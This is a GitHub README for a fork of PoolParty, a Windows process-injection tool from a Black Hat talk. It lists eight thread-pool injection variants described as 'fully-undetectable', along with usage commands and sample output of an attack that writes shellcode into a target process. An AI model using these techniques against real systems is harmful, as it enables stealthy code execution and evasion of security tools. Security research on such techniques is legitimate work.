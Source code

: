 # PoolParty Fork

This repository is a fork of the original [PoolParty project by SafeBreach-Labs](https://github.com/SafeBreach-Labs/PoolParty).

## About

PoolParty is a Windows tool designed to demonstrate process hollowing techniques. This fork includes minor updates to enhance functionality and usability.

## Updates in This Fork

- **Added Support for Custom Path Input:**  
  Updated the executable to accept a new argument:
  ```
  PoolParty.exe -V 8 -P 1234 -path C:\Users\User\Download\program.exe
  ```
  The `-path` argument allows specifying the full path to the program you wish to execute.

## Usage

```
PoolParty.exe -V <version> -P <process_id> -path <program_path>
```

### Arguments
- `-V`: Version parameter (integer, e.g., `8`).
- `-P`: Process ID (integer, e.g., `1234`).
- `-path`: Full path to the executable file (e.g., `C:\Users\User\Download\program.exe`).

## Original Repository

The original PoolParty repository by SafeBreach-Labs can be found [here](https://github.com/SafeBreach-Labs/PoolParty).

---
This are retained from original project
# PoolParty
A collection of fully-undetectable process injection techniques abusing Windows Thread Pools. Presented at Black Hat EU 2023 Briefings under the title - [**The Pool Party You Will Never Forget: New Process Injection Techniques Using Windows Thread Pools**](https://www.blackhat.com/eu-23/briefings/schedule/#the-pool-party-you-will-never-forget-new-process-injection-techniques-using-windows-thread-pools-35446)

## PoolParty Variants

| Variant ID  | Varient Description |
| ------------- | ----------------- |
| 1  | Overwrite the start routine of the target worker factory       |
| 2  | Insert TP_WORK work item to the target process's thread pool   |
| 3  | Insert TP_WAIT work item to the target process's thread pool   |
| 4  | Insert TP_IO work item to the target process's thread pool     |
| 5  | Insert TP_ALPC work item to the target process's thread pool   |
| 6  | Insert TP_JOB work item to the target process's thread pool    |
| 7  | Insert TP_DIRECT work item to the target process's thread pool |
| 8  | Insert TP_TIMER work item to the target process's thread pool  |

## Usage
```
PoolParty.exe -V <VARIANT ID> -P <TARGET PID> -path <ABSOLUTE PATH TO PROGRAM TO EXECUTE>
```

## Usage Examples

Insert TP_TIMER work item to process ID 1234
```
>> PoolParty.exe -V 8 -P 1234 -path C:\Users\User\Download\program.exe

[info]    Starting PoolParty attack against process id: 1234
[info]    Retrieved handle to the target process: 00000000000000B8
[info]    Hijacked worker factory handle from the target process: 0000000000000058
[info]    Hijacked timer queue handle from the target process: 0000000000000054
[info]    Allocated shellcode memory in the target process: 00000281DBEF0000
[info]    Written shellcode to the target process
[info]    Retrieved target worker factory basic information
[info]    Created TP_TIMER structure associated with the shellcode
[info]    Allocated TP_TIMER memory in the target process: 00000281DBF00000
[info]    Written the specially crafted TP_TIMER structure to the target process
[info]    Modified the target process's TP_POOL tiemr queue list entry to point to the specially crafted TP_TIMER
[info]    Set the timer queue to expire to trigger the dequeueing TppTimerQueueExpiration
[info]    PoolParty attack completed successfully

```

## Default Shellcode and Customization
The default shellcode spawns a calculator via the [WinExec API](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-winexec). 

To customize the executable to execute, change the path in the end of the `g_Shellcode` variable present in the main.cpp file.

## Author - Alon Leviev
* LinkedIn - [Alon Leviev](https://il.linkedin.com/in/alonleviev)
* Twitter - [@_0xDeku](https://twitter.com/_0xDeku)
